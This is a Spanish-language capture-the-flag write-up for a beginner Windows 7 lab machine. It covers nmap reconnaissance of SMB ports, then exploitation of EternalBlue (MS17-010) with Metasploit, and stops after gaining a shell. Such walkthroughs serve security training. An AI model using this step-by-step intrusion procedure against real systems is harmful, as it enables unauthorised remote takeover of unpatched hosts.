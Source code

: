 ```yaml
---
description: '🔍 Dificultad: Principiante'
---
```


# Microchoft

### 🔍 **RECONOCIMIENTO**

En primer lugar, miramos la **IP** de la máquina víctima con este comando:

```bash
sudo arp-scan --interface=eth0 --localnet
```

<figure><img src="../../.gitbook/assets/imagen (15).png" alt=""><figcaption></figcaption></figure>

En segundo lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.57
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/imagen (1) (1).png" alt=""><figcaption></figcaption></figure>

Definitivamente es una máquina Windows porque el TTL=128.

A continuación, se realiza el comando:

```bash
sudo nmap -p- --open -sS -Pn --min-rate 5000 -n 192.168.1.57
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/imagen (2) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo, los siguientes puertos están abiertos:

* **135/tcp**: Pertenece al servicio **MSRPC** (Microsoft Remote Procedure Call), que es utilizado para la comunicación entre procesos en sistemas Windows.
* **139/tcp**: Pertenece al servicio **NetBIOS-SSN** (NetBIOS Session Service), utilizado por redes que ejecutan el protocolo SMB (Server Message Block) en sistemas Windows.
* **445/tcp**: Pertenece al servicio **Microsoft-DS** (Microsoft Directory Services), utilizado para compartir archivos en redes Windows mediante el protocolo SMB.

Además, se han detectado varios puertos en el rango dinámico de Windows (49152-65535) abiertos, pero sin un servicio conocido específico:

* **49152/tcp - 49157/tcp**: Puertos marcados como **unknown**, los cuales pueden estar relacionados con servicios de red personalizados o asignados dinámicamente por el sistema operativo para uso de aplicaciones específicas.

Dado que los puertos **135/tcp**, **139/tcp**, y **445/tcp** están abiertos, se indagará más en relación a estos puertos para evaluar posibles vulnerabilidades o configuraciones incorrectas en los servicios SMB y MSRPC, que son comúnmente utilizados en entornos Windows y pueden ser potenciales vectores de ataque si no están adecuadamente asegurados.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p135,139,445 -v 192.168.1.57
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/imagen (3) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo, el puerto **445/tcp** perteneciente al servicio **Microsoft-DS** está abierto. Este puerto es utilizado para compartir archivos y otros recursos en redes Windows mediante el protocolo SMB (Server Message Block).

Al analizar más a fondo, se ha detectado que el sistema operativo es **Windows 7 Home Basic SP1 (Service Pack 1)** y está configurado en el grupo de trabajo **WORKGROUP**. Este sistema, con el **puerto 445 abierto**, es particularmente preocupante ya que es vulnerable a la famosa vulnerabilidad **EternalBlue**.

**EternalBlue**, que afecta versiones de Windows no actualizadas, explota una vulnerabilidad crítica en el protocolo SMBv1, lo que podría permitir la ejecución remota de código y, en consecuencia, el control completo del sistema afectado. Esta vulnerabilidad ha sido utilizada en ataques masivos como el ransomware **WannaCry**.

Dado que estamos frente a un sistema operativo obsoleto (Windows 7), y que el puerto **445/tcp** está expuesto, se procederá a indagar más para determinar si el sistema es susceptible a esta vulnerabilidad y recomendar medidas de mitigación, como la actualización del sistema operativo o la desactivación del protocolo SMBv1.\


Por eso mismo revisamos si es vulnerable por si acaso con el comando:

```
nmap -p445 --script="vuln and safe" 192.168.1.57
```

<figure><img src="../../.gitbook/assets/imagen (4) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
msfconsole
```

<figure><img src="../../.gitbook/assets/imagen (5) (1).png" alt=""><figcaption></figcaption></figure>

A continuación se intentará explotar esa vulnerabilidad a través de la herramienta **Metasploit**. Se busca la vulnerabilidad exacta que obtenida en el anterior escaneo.

```bash
search ms17-010
```

<figure><img src="../../.gitbook/assets/imagen (6) (1).png" alt=""><figcaption></figcaption></figure>

Revisamos el segundo ya que tenemos un **Windows 7** de máquina víctima.

```bash
use 2
```

<figure><img src="../../.gitbook/assets/imagen (7) (1).png" alt=""><figcaption></figcaption></figure>

Miramos las opciones que tenemos que configurar con el comando:

```bash
show options
```

<figure><img src="../../.gitbook/assets/imagen (8) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, configuramos los parámetros necesarios para realizar el ataque:

* **RHOSTS**: Definimos la dirección IP del host remoto (objetivo) como `192.168.1.57`.
* **LHOST**: Establecemos la dirección IP de nuestro host local (atacante) como `192.158.1.50`.

<figure><img src="../../.gitbook/assets/imagen (9) (1).png" alt=""><figcaption></figcaption></figure>

Después de haber configurado estos parámetros correctamente, procederemos a verificar si el objetivo es explotable. Esto implica ejecutar la explotación para confirmar si la vulnerabilidad está presente y si podemos obtener acceso o control del sistema remoto.

```bash
exploit
```

<figure><img src="../../.gitbook/assets/imagen (10) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro ejecutamos:

```bash
pwd
```

<figure><img src="../../.gitbook/assets/imagen (11) (1).png" alt=""><figcaption></figcaption></figure>

A medida que avanzamos en nuestra investigación, revisaremos los directorios de los usuarios **Admin** y **Lola** para encontrar las diferentes flags requeridas en este reto.

¡Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
